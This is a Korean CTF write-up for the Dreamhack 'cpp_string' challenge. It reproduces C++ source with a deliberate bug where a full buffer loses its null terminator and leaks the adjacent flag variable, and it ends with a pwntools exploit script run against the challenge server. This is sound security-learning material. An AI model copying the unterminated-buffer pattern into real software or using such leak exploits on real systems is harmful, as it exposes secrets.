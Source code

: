 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN cpp_string"
excerpt: "드림핵 포너블 cpp_string 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-04-04 18:00
---
```


이번 문제는 드림핵 1단계 cpp_string이다.

C++에서 파일 읽기에 사용되는 is.read 함수는 C언어의 read함수를 std::ifstream에서 사용할 수 있게 포팅한 함수로 C언어의 read와 동일하게 동작한다.

이전 워 게임에서 메모리를 릭 할때 사용한 할당된 버퍼를 꽉 채운 뒤 null을 자리값을 임의 값으로 넣으면 이후 메모리 주소에 나열되어 있는 메모리 값이 같이 읽히는 것을 볼 수 있다. 이와 동일한 버그가 발생한다는 뜻이다.

우선 소스코드를 살펴보자.

```c++
//g++ -o cpp_string cpp_string.cpp
#include <iostream>
#include <fstream>
#include <csignal>
#include <unistd.h>
#include <stdlib.h>

char readbuffer[64] = {0, };
char flag[64] = {0, };
std::string writebuffer;

void alarm_handler(int trash)
{
    std::cout << "TIME OUT" << std::endl;
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int read_file(){
	std::ifstream is ("test", std::ifstream::binary);
	if(is.is_open()){
        	is.read(readbuffer, sizeof(readbuffer));
		is.close();

		std::cout << "Read complete!" << std::endl;
        	return 0;
	}
	else{
        	std::cout << "No testfile...exiting.." << std::endl;
        	exit(0);
	}
}

int write_file(){
	std::ofstream of ("test", std::ifstream::binary);
	if(of.is_open()){
		std::cout << "Enter file contents : ";
        	std::cin >> writebuffer;
		of.write(writebuffer.c_str(), sizeof(readbuffer));
                of.close();
		std::cout << "Write complete!" << std::endl;
        	return 0;
	}
	else{
		std::cout << "Open error!" << std::endl;
		exit(0);
	}
}

int read_flag(){
        std::ifstream is ("flag", std::ifstream::binary);
        if(is.is_open()){
                is.read(flag, sizeof(readbuffer));
                is.close();
                return 0;
        }
        else{
		std::cout << "You must need flagfile.." << std::endl;
                exit(0);
        }
}

int show_contents(){
	std::cout << "contents : ";
	std::cout << readbuffer << std::endl;
	return 0;
}
	


int main(void) {
    initialize();
    int selector = 0;
    while(1){
    	std::cout << "Simple file system" << std::endl;
    	std::cout << "1. read file" << std::endl;
    	std::cout << "2. write file" << std::endl;
	std::cout << "3. show contents" << std::endl;
    	std::cout << "4. quit" << std::endl;
    	std::cout << "[*] input : ";
	std::cin >> selector;
	
	switch(selector){
		case 1:
			read_flag();
			read_file();
			break;
		case 2:
			write_file();
			break;
		case 3:
			show_contents();
			break;
		case 4:
			std::cout << "BYEBYE" << std::endl;
			exit(0);
	}
    }
}
```

뭔가 기능이 많아보인다. main 함수부터 분석해보면 어떤 행동을 할지 selector 값을 입력 받는다.

1번 매뉴를 통해서 read_flag()함수가 동작하여 디렉터리에 있는 flag 파일을 버퍼 크기만큼 읽어 64 크기의 버퍼에 쓴다. 이후 read_file()함수를 통해 동일 디렉터리에 있는 file 파일을 버퍼 크기만큼 읽어 64 크기의 버퍼에 쓴다.

2번 매뉴를 통해서 file 파일에 버퍼 크기만큼의 값을 쓴다.

3번 매뉴를 통해 읽어온 file을 출력한다.

여기서 readbuffer와 flag 변수의 주소는 서로 연속적으로 배치되어 있다. readbuffer 다음에 바로 flag 변수의 주소이다.

따라서 readbuffer를 최대로 채워줘 문자열의 끝을 알리는 null 바이트를 다른 값으로 덮어 뜨면 flag 변수의 내용을 leak 할수 있다.

공격 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 9645)
#p = process("./iofile_vtable_check", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./cpp_string")
elf = ELF("./cpp_string")
#libc = ELF("./libc.so.6")

p.sendlineafter(b"[*] input : ", b"2")
p.sendlineafter(b"Enter file contents : ", b"a"*64)


p.sendlineafter(b"[*] input : ", b"1")
p.sendlineafter(b"[*] input : ", b"3")

print(p.recv())


p.interactive()
```